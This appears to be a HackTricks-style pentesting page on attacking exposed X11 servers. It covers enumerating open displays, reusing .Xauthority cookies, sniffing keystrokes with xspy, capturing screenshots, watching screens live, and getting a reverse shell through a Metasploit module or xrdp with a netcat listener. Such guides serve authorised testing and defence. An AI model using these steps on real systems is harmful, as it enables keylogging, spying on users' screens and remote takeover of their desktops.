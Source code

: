 # 6000 - Pentesting X11

{{#include /banners/hacktricks-training.md}}



## Basic Information

**X Window System** (X) is a versatile windowing system prevalent on UNIX-based operating systems. It provides a framework for creating graphical **user interfaces (GUIs)**, with individual programs handling the user interface design. This flexibility allows for diverse and customizable experiences within the X environment.

**Default port:** 6000

```
PORT       STATE   SERVICE
6000/tcp   open    X11
```

## Enumeration

Check for **anonymous connection:**

```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```

#### Local Enumeration

The file **`.Xauthority`** in the users home folder is **used** by **X11 for authorization**. From [**here**](https://stackoverflow.com/a/37367518):

```bash
$ xxd ~/.Xauthority
00000000: 0100 0006 6d61 6e65 7063 0001 3000 124d  ............0..M
00000010: 4954 2d4d 4147 4943 2d43 4f4f 4b49 452d  IT-MAGIC-COOKIE-
00000020: 3100 108f 52b9 7ea8 f041 c49b 85d8 8f58  1...R.~..A.....X
00000030: 041d ef                                  ...
```

> MIT-magic-cookie-1: Generating 128bit of key (“cookie”), storing it in \~/.Xauthority (or where XAUTHORITY envvar points to). The client sends it to server plain! the server checks whether it has a copy of this “cookie” and if so, the connection is permitted. the key is generated by DMX.

> [!WARNING]
> In order to **use the cookie** you should set the env var: **`export XAUTHORITY=/path/to/.Xauthority`**

#### Local Enumeration Session

```bash
$ w
 23:50:48 up 1 day, 10:32,  1 user,  load average: 0.29, 6.48, 7.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
user     tty7     :0               13Oct23 76days 13:37   2.20s xfce4-session
```

In the example, `localhost:0` was running xfce4-session.

## Verfy Connection

```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```

## Keyloggin

[xspy](http://tools.kali.org/sniffingspoofing/xspy) to sniff the keyboard keystrokes.

Sample Output:

```
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```

## Screenshots capturing

```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```

## Remote Desktop View

Way from: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

```
./xrdp.py <IP:0>
```

Way from: [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)

First we need to find the ID of the window using xwininfo

```
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```

**XWatchwin**

For **live viewing** we need to use

```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```

## Get Shell

```
msf> use exploit/unix/x11/x11_keyboard_exec
```

Other way:

**Reverse Shell:** Xrdp also allows to take reverse shell via Netcat. Type in the following command:

```bash
./xrdp.py \<IP:0> –no-disp
```

In the interface you can see the **R-shell option**.

Then, start a **Netcat listener** in your local system on port 5555.

```bash
nc -lvp 5555
```

Then, put your IP address and port in the **R-Shell** option and click on **R-shell** to get a shell

## References

- [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
- [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
- [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

## Shodan

- `port:6000 x11`

{{#include ../banners/hacktricks-training.md}}



